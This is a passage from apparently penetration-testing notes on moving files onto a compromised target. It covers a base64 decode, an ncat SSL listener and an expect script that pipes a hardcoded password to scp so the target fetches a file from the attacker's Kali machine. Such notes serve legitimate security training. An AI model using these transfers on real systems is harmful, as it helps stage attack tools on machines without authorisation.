 Then, on the target, we can copy and paste the string into a `.txt` file with `echo "string" > output.txt`, and use base64 to decode the file, with `base64 -d output.txt > output-file`




















## Encrypted & Secure File Transfer

### 1
Set up listener on the target:
```
ncat -nvlp port --ssl > out-file
```

And connect to the listener from the attacking machine:
```
ncat -nv target-ip port --ssl < file-to-send
```


### 2
The second method is to use the Secure Copy Protocol (SCP).

Start the SSH server easily on your Kali Linux with service ssh start.

On the target, we need to create a file, line by line, which will enter the SSH password in, and download the remote file.
The only reason that a one-liner doesn't work is because SCP prompts the user for a password, and simply echoing the password and piping it to the command won't work. The list of commands to build the file looks like this:
```
echo '#!/usr/bin/expect' > scp.exp
echo 'spawn scp username@ip-addr:/path-to-file out-file' >> scp.exp
echo 'set pass "password"' >> scp.exp
echo 'expect {' >> scp.exp
echo 'password: {send "$pass\r"; exp_continue}' >> scp.exp
echo '}' >> scp.exp
```

To run this file, use `expect scp.exp` and securely download the file you want.

You may need to create a new user for SSH to log into, if so, you can use the `adduser username` command and follow the prompt to set up a new user.





